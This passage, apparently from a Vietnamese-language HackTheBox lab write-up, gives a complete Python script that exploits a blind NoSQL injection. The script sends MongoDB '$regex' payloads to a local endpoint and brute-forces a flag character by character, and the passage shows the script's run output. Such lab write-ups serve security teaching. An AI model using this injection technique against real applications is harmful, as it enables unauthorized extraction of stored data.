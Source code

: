 5. **Xác nhận kết quả**:
   - Sau khi hoàn thành chuỗi `trackingNum`, xác nhận tính chính xác bằng cách gửi yêu cầu kiểm tra.
   - In ra kết quả cuối cùng:
     ```python
     assert (oracle(trackingNum) == True)  # Xác nhận mã tracking chính xác
     print("Tracking Number: " + trackingNum)
     ```

6. **Code hoàn chỉnh**:
   - Đặt tất cả các phần lại với nhau:
     ```python
     #!/usr/bin/python3
     import requests
     import json

     # Oracle function
     def oracle(t):
         r = requests.post(
             "http://127.0.0.1/index.php",
             headers={"Content-Type": "application/json"},
             data=json.dumps({"trackingNum": t})
         )
         return "bmdyy" in r.text

     # Verify oracle function
     assert (oracle("X") == False)
     assert (oracle({"$regex": "^HTB{.*"}) == True)

     # Dump tracking number
     trackingNum = "HTB{"
     for _ in range(32):
         for c in "0123456789abcdef":
             if oracle({"$regex": "^" + trackingNum + c}):
                 trackingNum += c
                 break
     trackingNum += "}"

     # Verify tracking number
     assert (oracle(trackingNum) == True)
     print("Tracking Number: " + trackingNum)
     ```

7. **Chạy script**:
   - Chạy script trên để tự động trích xuất mã `trackingNum`.
   - Kết quả:
     ```
     time python3 mangopost-exploit.py
     Tracking Number: HTB{...SNIP...}
     real    0m23.006s
     user    0m0.419s
     sys     0m0.033s
     ```

---